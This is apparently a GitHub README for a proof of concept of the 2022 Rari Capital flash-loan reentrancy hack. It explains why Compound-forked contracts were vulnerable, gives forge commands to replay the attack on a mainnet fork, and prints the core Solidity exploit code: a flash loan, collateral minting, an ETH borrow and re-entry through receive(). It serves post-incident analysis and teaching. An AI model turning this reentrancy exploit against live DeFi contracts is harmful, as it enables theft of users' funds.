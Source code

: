 This is a fork of [https://github.com/W2Ning/Rari_Fei_Vul_Poc](https://github.com/W2Ning/Rari_Fei_Vul_Poc) with the original author's authorization.

### Background story:
On April 30th 2022, Rari Capital suffered a flash loan reentry attack, causing a direct loss of about 80M USD, and it has been only one year since its 10M- fund stolen in 2021.

### It all starts with Compound

For the `Compound` protocol, its code does not follow [“Check-Effect-Interaction”](https://fravoll.github.io/solidity-patterns/checks_effects_interactions.html) principle. A TLDR explanation of this principle is that your code should update the balance before transferring assets. For instance, in the repo here:

[https://github.com/compound-finance/compound-protocol/blob/ae4388e780a8d596d97619d9704a931a2752c2bc/contracts/CToken.sol#L786](https://github.com/compound-finance/compound-protocol/blob/ae4388e780a8d596d97619d9704a931a2752c2bc/contracts/CToken.sol#L786)

* In line 786, the code executes transfer-out first
* Then indexes the amount of borrow from the user

![image](./image/1.png)
![image](./image/2.png)

This logic works in most of the scenarios, yet if the borrowed token has certain hook functions, the code will be vulnerable to [Reentrancy Attack](https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/), and the hackers can utilize the loophole to do malicious operations before the indexing happens, which can cost great damage to the project.

But we cannot blame Compound too much: they have already made their own effort to avoid introducing non-compatible tokens onto their ecosystem, and the `Check-effect-interaction` pattern was not mature enough at the moment it developed.

Yet, projects forked from Compound did not really realize such risk, and multiple hacks happened from similar attacks:

![image](./image/3.png)

* [Rekt — Cream Finance — REKT 2](https://rekt.news/cream-rekt-2/)
* [Rekt — Agave DAO, Hundred Finance — REKT](https://rekt.news/agave-hundred-rekt/)
* [Rekt — Voltage Finance — REKT](https://rekt.news/voltage-finance-rekt/)


### A New Gesture over Old Principle

It is good that Rari does not involve non-compatible tokens, but in its CEther contract, they introduced the same vulnerability by using call.value to transfer ETH.

[https://etherscan.io/address/0xd77e28a1b9a9cfe1fc2eee70e391c05d25853cbf#code](https://etherscan.io/address/0xd77e28a1b9a9cfe1fc2eee70e391c05d25853cbf#code)

![image](./image/4.png)
![image](./image/5.png)

Compared to previous hackers, who borrowed twice while leaving initial staking assets inside the pool and gaining `70% + 70% - 100% = 40%`, this time, the hacker borrows only once and took all of their initial staking back.

![image](./image/6.png)

### The limitation of Nonreentrant

Nonreentrant can effectively reduce the risk of reentrancy for a SINGLE contract in a SINGLE transaction, but not everything else. For instance, even if both function a in contract A and function b in contract B are nonreentrant, hackers can still attack function b of contract B via function a of contract A.

To prevent this limitation, an effective revision is actually changing the sequence of code.

For instance, Cream Finance, which was hacked last October, when it updates its code, it follows the “Checks Effects Interactions” best practice by first updating the record, and then transferring the money out, as shown below:

[https://etherscan.io/address/0x28192abdb1d6079767ab3730051c7f9ded06fe46#code](https://etherscan.io/address/0x28192abdb1d6079767ab3730051c7f9ded06fe46#code
)

![image](./image/7.png)


### Reproduce the hack: How-To

```
git clone https://github.com/W2Ning/Rari_Fei_Vul_Poc.git && cd Rari_Fei_Vul_Poc
```
and

```
forge test -vvv --fork-url $eth --fork-block-number 14684813
```
![image](./image/8.png)


### core attacking code

```sol
    function test() public {
        // preparation 1: lookup how many ETH is available for borrow in fETH_127
        emit log_named_uint(
            "ETH Balance of fETH_127 before borrowing",
            address(fETH_127).balance / 1e18
        );

        // preparation 2: remove all the ETH from test forge address, this is for better test demonstration later
        payable(address(0)).transfer(address(this).balance);

        emit log_named_uint(
            "ETH Balance after sending to blackHole",
            address(this).balance
        );

        // step 1: borrow 15 million USDC via balancer flash loan
        // the attacker borrowed 150 million even though 15 million would be sufficient
        // there is no fee for balancer flash loan hence it does not matter if borrowing more
        address[] memory tokens = new address[](1);

        tokens[0] = address(usdc);

        uint256[] memory amounts = new uint256[](1);

        amounts[0] = 150000000 * 10**6;

        vault.flashLoan(address(this), tokens, amounts, "");
    }

    function receiveFlashLoan(
        IERC20[] memory tokens,
        uint256[] memory amounts,
        uint256[] memory feeAmounts,
        bytes memory userData
    ) external {
        // there will be warnings without below 4 declarations
        tokens;
        amounts;
        feeAmounts;
        userData;
        // check if we have borrowed 15 million USDC successfully

        uint256 usdc_balance = usdc.balanceOf(address(this));
        emit log_named_uint("Borrow USDC from balancer", usdc_balance);

        // step 2: call fusdc_127::mint() fuction, finish collateral operation

        usdc.approve(address(fusdc_127), type(uint256).max);

        fusdc_127.accrueInterest();

        fusdc_127.mint(15000000000000);

        uint256 fETH_Balance = fETH_127.balanceOf(address(this));

        emit log_named_uint("fETH Balance after minting", fETH_Balance);

        usdc_balance = usdc.balanceOf(address(this));

        emit log_named_uint("USDC balance after minting", usdc_balance);

        // step 3: call Unitroller::enterMarkets() function

        address[] memory ctokens = new address[](1);

        ctokens[0] = address(fusdc_127);

        rari_Comptroller.enterMarkets(ctokens);

        // step 4: call fETH_127::borrow() function to borrow 1977 ETH

        fETH_127.borrow(1977 ether);

        emit log_named_uint(
            "ETH Balance of fETH_127_Pool after borrowing",
            address(fETH_127).balance / 1e18
        );

        emit log_named_uint(
            "ETH Balance of me after borrowing",
            address(this).balance / 1e18
        );

        usdc_balance = usdc.balanceOf(address(this));

        fusdc_127.approve(address(fusdc_127), type(uint256).max);

        fusdc_127.redeemUnderlying(15000000000000);

        usdc_balance = usdc.balanceOf(address(this));

        emit log_named_uint("USDC balance after borrowing", usdc_balance);

        // step 5: return 15 million USDC back to balancer

        usdc.transfer(address(vault), usdc_balance);

        usdc_balance = usdc.balanceOf(address(this));

        emit log_named_uint("USDC balance after repayying", usdc_balance);
    }

    receive() external payable {
        rari_Comptroller.exitMarket(address(fusdc_127));
    }

```
